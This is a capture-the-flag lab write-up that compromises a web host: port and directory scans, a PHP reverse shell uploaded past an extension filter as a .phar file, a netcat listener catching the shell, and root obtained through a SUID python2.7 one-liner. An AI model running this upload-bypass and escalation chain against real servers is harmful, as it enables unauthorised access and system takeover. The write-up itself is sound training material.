## Scenario

Access via: `10.114.130.192`

## Enumeration

I started with a full TCP port scan, then followed up with version and default-script scans against whatever came back open.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.130.192 -p- -T4        
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-25 00:06 +0200
Nmap scan report for 10.114.130.192
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.17 seconds
```

Only SSH and HTTP were open. I ran version detection and the default script set against those two.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.130.192 -p22,80 -sV -sC 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-25 00:06 +0200
Nmap scan report for 10.114.130.192
Host is up (0.036s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:ef:c4:b4:6c:3e:64:de:43:10:d5:e3:56:98:95:0d (RSA)
|   256 78:8d:66:ac:6f:55:9b:41:32:f3:92:31:ac:73:c5:a2 (ECDSA)
|_  256 68:25:69:b7:ef:d7:4e:a9:c2:1a:0c:b9:47:00:c5:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.59 seconds
```

Apache 2.4.41 on Ubuntu, serving a site called "HackIT". Next I enumerated directories on the webserver.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ gobuster dir -u 'http://10.114.130.192/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.114.130.192/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
uploads              (Status: 301) [Size: 318] [--> http://10.114.130.192/uploads/]
css                  (Status: 301) [Size: 314] [--> http://10.114.130.192/css/]
js                   (Status: 301) [Size: 313] [--> http://10.114.130.192/js/]
panel                (Status: 301) [Size: 316] [--> http://10.114.130.192/panel/]
server-status        (Status: 403) [Size: 279]
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================
```

I'd stepped away while this ran and came back to find it had gone through the entire medium wordlist, which wasn't needed in the end since all the real hits came back quickly.

`/uploads`, `/css`, `/js`, `/panel`, and a 403'd `/server-status` came back. `/panel` turned out to hold an upload form.



Checking the tech stack showed Apache, PHP, and Ubuntu. 


## Finding and Bypassing the Upload Filter

I grabbed a PHP reverse shell, pointed it at my IP, and started a listener.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cp /usr/share/laudanum/php/php-reverse-shell.php ./php-rev-shell.php

┌──(—REDACTED—㉿kali)-[~]
└─$ nano php-rev-shell.php 
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8888         
listening on [any] 8888 ...
```

Browsing to the file via the OS file picker, the dialog defaulted to an "All Files" filter, which made it look like there was no restriction on file type at all.



That assumption didn't hold. Uploading the shell as `.php` directly got rejected, with a message on the page in Portuguese.



Translating it confirmed it: the server was rejecting the upload specifically because it was PHP.



So there's a server-side extension filter. I intercepted the upload in Burp to see if trivially changing the filename before it reached the server works.



Changing the filename from `.php` to `.png` and forwarding it went through.


Since the earlier gobuster scan had already shown `/uploads`, and I'd also checked and confirmed that directory listing was enabled, I went there and found the file.



Opening it just tries and fails to serve the raw image file though, with no code execution from this alone.

## Fuzzing for an Executable Extension

To find an extension the filter would still accept but that Apache would still treat as PHP, I sent the upload request to Burp Intruder and fuzzed the filename's extension against a wordlist of extensions.





Looking at the attack results, `.php3` shows that it does not get caught by the filter. 



I took that back to Repeater, changed the upload filename to `php-rev-shell.php3`, and sent it. It went through. 



Going back to `/uploads`, the listing was now flooded with a copy of the shell under every extension the Intruder run had tried, since the filter clearly only blocks a few specific ones. Worth remembering for next time—to, for instance in this context, filter down the wordlist so that only those relating to `.php` was enumerated with. 




Clicking the `.php3` link just displayed the file's own source as text rather than running it, which I wasn't entirely sure why.



I tried a different extension instead: `.phar` uploaded successfully too. Clicking its link, I went back to the listener.



## Catching the Shell

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8888         
listening on [any] 8888 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.130.192] 52950
Linux ip-10-114-130-192 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 23:00:36 up 55 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

`.phar` worked, and I got a shell as `www-data`. 

## Stabilising the Shell

```shell
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")' 
bash-5.0$ ^Z
zsh: suspended  nc -lvnp 8888
                                                                                                                                                                                                                                            
┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg                      
[1]  + continued  nc -lvnp 8888

bash-5.0$ export TERM=xterm-256color
bash-5.0$ stty rows 52 cols 236
```

Stabilising and upgrading the shell, and then went to the home directory for the flag. 

```shell
bash-5.0$ cd ~
bash-5.0$ ls
html  user.txt
bash-5.0$ cat user.txt 
—REDACTED—
```

### User Flag

**Answer:** `—REDACTED—`

## Privilege Escalation

Checked for crontab entries, but there were none. Checked for dangerous capabilities, but there were none either. Next, checked for SUID binaries.

```shell
bash-5.0$ find / -perm -04000 -type f -ls 2>/dev/null | grep -v snap 
   789259     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   943221    848 -rwsr-xr-x   1 root     root         866448 Feb  4  2022 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   786837     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   794108    468 -rwsr-xr-x   1 root     root         477672 Apr 11  2025 /usr/lib/openssh/ssh-keysign
   807579     24 -rwsr-xr-x   1 root     root          22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   790600     44 -rwsr-xr-x   1 root     root          41552 Feb  6  2024 /usr/bin/newuidmap
   790599     48 -rwsr-xr-x   1 root     root          45648 Feb  6  2024 /usr/bin/newgidmap
   790494     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /usr/bin/chsh
   794694   3576 -rwsr-xr-x   1 root     root        3657904 Dec  9  2024 /usr/bin/python2.7
   786902     56 -rwsr-sr-x   1 daemon   daemon        55560 Nov 12  2018 /usr/bin/at
   786526     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /usr/bin/chfn
   790497     88 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /usr/bin/gpasswd
   787492    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
   787586     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /usr/bin/newgrp
   790893     68 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /usr/bin/passwd
   807577     32 -rwsr-xr-x   1 root     root          31032 Feb 21  2022 /usr/bin/pkexec
   786555     56 -rwsr-xr-x   1 root     root               55528 Apr  9  2024 /bin/mount
   794512     68 -rwsr-xr-x   1 root     root               67816 Apr  9  2024 /bin/su
   786560     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /bin/fusermount
   786557     40 -rwsr-xr-x   1 root     root               39144 Apr  9  2024 /bin/umount
```

`/usr/bin/python2.7` having the SUID bit set stood out immediately. Looked it up on GTFOBins.



```shell
bash-5.0$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

The one-liner worked. Similarly went to the root directory to get the root flag.

```shell
# cd /root    	
# ls       
root.txt  snap
# cat root.txt
—REDACTED—
```

### Root Flag

**Answer:** `—REDACTED—`